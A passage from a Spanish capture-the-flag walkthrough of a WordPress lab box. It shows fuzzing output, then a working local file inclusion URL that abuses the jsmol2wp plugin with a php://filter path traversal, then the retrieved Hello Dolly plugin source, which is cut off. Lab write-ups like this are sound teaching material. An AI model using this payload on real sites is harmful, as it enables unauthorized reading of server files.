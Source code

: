 ```
________________________________________________

wp-content/plugins/hello.php [Status: 200, Size: 2704, Words: 321, Lines: 104, Duration: 1ms]
:: Progress: [13370/13370] :: Job [1/1] :: 34 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

Veremos que nos ha encontrado un archivo llamado `wp-content/plugins/hello.php` por lo que vamos a intentar leerlo con dicha vulnerabilidad:

```
URL = http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

Info:

```
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
	/** These are the lyrics to Hello Dolly */
	$lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

	// Here we split it into lines.
```